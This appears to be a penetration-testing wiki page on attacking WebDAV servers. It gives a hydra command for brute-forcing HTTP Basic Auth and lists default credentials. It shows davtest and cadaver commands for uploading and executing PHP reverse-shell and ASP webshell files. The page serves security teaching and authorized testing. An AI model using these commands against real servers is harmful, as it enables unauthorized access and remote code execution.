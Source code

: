 ```yaml
---
description: Pentesting WebDAV - TCP Ports 80,443
---
```


# WebDAV

## Theory

WebDAV is a set of extensions to the Hypertext Transfer Protocol, which allows user agents to collaboratively author contents directly in an HTTP web server. Usually, to **connect** a WebDav server you will need valid **credentials.**

## Practice

{% hint style="info" %}
On Windows, users can also access and mount WebDAV shares via UNC paths, such as `\\10.37.129.2@80\example_webdav_folder`.
{% endhint %}

### Brute-force (HTTP Basic Auth)

{% tabs %}
{% tab title="hydra" %}
WebDAV usually require valid credentials using HTTP Basic Auth. You may bruteforce it using [hydra](https://github.com/vanhauser-thc/thc-hydra)

```bash
hydra -L users.txt -P passwords.txt example.domain.local http-get /webdavDirectory/
```

{% hint style="info" %}
Default credentials are **`wampp:xampp`**
{% endhint %}
{% endtab %}
{% endtabs %}

### Upload a shell

{% tabs %}
{% tab title="Davtest" %}
**Davtest** will try to upload several files with different extensions and check if the extension is executed:

```bash
# Test and cleanup
davtest -url http://example.com/davdir -auth 'user:pass' -cleanup

#Uplaod .txt files and try to move it to other extensions
davtest -url http://example.com/davdir -auth 'user:pass' -cleanup -move 
```

If we can upload the file e.g. PHP file, upload the script for reverse shell.

```bash
davtest -url http://example.com/davdir -auth 'user:pass' -uploadfile shell.php -uploadloc shell.php
```

Then we can navigate to http://example.com/davdir/shell.php to execute it.
{% endtab %}

{% tab title="Cadaver" %}
You can use this tool to **connect to the WebDav** server and perform actions (like **upload**, **move** or **delete**) **manually**.

```bash
$ cadaver http://example.com/davdir
Username: bob
Password: 
dav:/davdir/> put /usr/share/webshells/asp/webshell.asp
```

Then we can navigate to http://example.com/davdir/webshell.asp to execute it.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/web/webdav-pentesting/" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav" %}
